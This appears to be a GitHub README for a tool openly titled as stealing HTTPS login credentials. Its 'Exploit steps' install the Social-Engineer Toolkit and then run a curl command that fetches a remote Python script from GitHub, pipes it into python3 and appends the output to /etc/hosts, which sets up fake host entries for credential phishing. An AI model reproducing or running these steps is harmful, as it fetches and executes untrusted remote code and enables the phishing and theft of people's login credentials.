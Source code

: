 # SSTC-login-credentials-HTTPS stealing credentials
- by nu11secur1ty

![](https://github.com/nu11secur1ty/SSTC-HTTPS-login-credentials/blob/master/logo/http.png)

# Exploit steps:
1. - 
`pip install -r requirements.txt`

2. -
For other Linux distro
```
$ git clone https://github.com/trustedsec/social-engineer-toolkit/ set/
$ cd set
$ pip install -r requirements.txt
```
-- For kali 
```bash 
setoolkit
```

3. -
- For Linux
```bash
curl -s https://raw.githubusercontent.com/nu11secur1ty/SSTC-HTTPS-login-credentials/master/hosts/modules/pyexploitcreate/pyexploitcreateIP_host_fake.py | python3 >> /etc/hosts
```
